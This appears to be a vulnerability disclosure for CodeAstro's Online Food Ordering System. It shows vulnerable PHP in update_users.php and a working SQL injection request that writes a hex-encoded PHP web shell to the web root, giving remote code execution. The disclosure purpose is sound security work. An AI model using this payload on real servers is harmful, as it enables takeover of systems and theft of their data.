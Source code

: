 # Remote Code Execution via SQL Injection in Online Food Ordering System


## Vendor and Product information:
* **Vendor:** CodeAstro
* **Product:** Online Food Ordering System
* **Product URL:** https://codeastro.com/online-food-ordering-system-in-php-mysql-with-source-code/

## Description
An SQL injection vulnerability in the "Update User" page can be chained to execute arbitrary code remotely on the server. This could allow attackers to access sensitive data, disrupt services, and compromise the overall availability of the system.
## Code
~~~ php
<?php $ssql ="select * from users where u_id='$_GET[user_upd]'";
 $res=mysqli_query($db, $ssql); 
 $newrow=mysqli_fetch_array($res);?>
~~~

## Proof of Concept
**HTTP Request Example**
``` http request
GET /OnlineFood-PHP/admin/update_users.php?user_upd=-6'+union+select+1,0x3c3f706870206563686f2073797374656d28245f4745545b305d293b3f3e,3,4,5,6,7,8,9,10+INTO+OUTFILE+'/opt/lampp/htdocs/OnlineFood-PHP/cmd.php'--+- HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://localhost/OnlineFood-PHP/admin/all_users.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

## Screenshot
![image](https://github.com/user-attachments/assets/343d6174-3a4e-4182-a661-9e261e008362)



## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
